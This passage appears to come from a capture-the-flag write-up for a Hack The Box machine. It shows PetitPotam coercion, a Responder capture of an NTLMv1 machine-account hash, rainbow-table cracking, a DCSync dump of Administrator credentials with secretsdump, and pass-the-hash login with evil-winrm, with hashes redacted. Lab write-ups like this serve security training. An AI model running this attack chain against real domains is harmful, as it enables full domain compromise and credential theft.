             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)

                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN


Trying pipe lsarpc
[-] Connecting to ncacn_np:apt6.htb[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```
In the other terminal:
```bash
sudo responder -I tun0 --lm -v

<SNIP>

[+] Listening for events...

[!] Error starting TCP server on port 53, check permissions or other servers running.
[SMB] NTLMv1 Client   : 10.129.96.60
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:<REDACTED_HASH>
```

### Step 3 — Crack with Rainbow Tables

We tried `hashcat` with rockyou.txt first and it exhausted the wordlist without success. Machine account passwords are random and complex by design.

Instead, we use [ntlmv1.com](https://ntlmv1.com/). Since we used the fixed challenge `1122334455667788`, the site can look up the NT hash directly from precomputed rainbow tables. We submit the `NTLMResponse` portion and select `Net-NTLMv1`:



The result comes back instantly in the Tasks tab:



The **NT hash of the `APT$` machine account** is `<REDACTED_HASH>`.

---

## DCSync as APT$ — Administrator Hash

Machine accounts in AD have replication privileges. We use `APT$`'s NT hash to perform a **DCSync** and pull the Administrator's credentials directly:

```bash
secretsdump.py 'htb.local/APT$@apt6.htb' -hashes :<REDACTED_HASH> -just-dc-user Administrator
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED_HASH>:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:<REDACTED_HASH>
Administrator:aes128-cts-hmac-sha1-96:<REDACTED_HASH>
Administrator:des-cbc-md5:<REDACTED_HASH>
[*] Cleaning up...
```

---

## Shell as Administrator — Root Flag

```bash
evil-winrm -i apt6.htb -u Administrator -H <REDACTED_HASH>

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
<ROOT_FLAG>
```

Rooted!
